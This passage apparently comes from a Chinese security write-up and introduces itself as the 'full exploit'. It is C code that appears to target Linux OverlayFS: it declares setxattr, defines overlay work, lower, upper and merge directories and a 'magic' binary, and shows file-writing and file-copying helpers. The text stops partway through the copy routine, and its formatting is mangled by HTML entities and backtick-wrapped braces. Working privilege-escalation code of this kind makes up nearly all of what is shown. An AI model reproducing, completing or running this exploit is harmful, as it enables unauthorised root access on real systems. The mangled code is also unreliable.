 完整Exp如下

```
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;err.h&gt;
#include &lt;errno.h&gt;
#include &lt;sched.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mount.h&gt;

//#include &lt;attr/xattr.h&gt;
//#include &lt;sys/xattr.h&gt;
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./eki_ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"

static void writefile(const char *path, const char *data)
`{`
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
`}`

static void copyfile(const char *src, const char *dst, mode_t mode)
`{`
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) `{`
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) `{`
            break;
        `}` else if (rd == -1) `{`
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        `}`

        char *p = buf;
```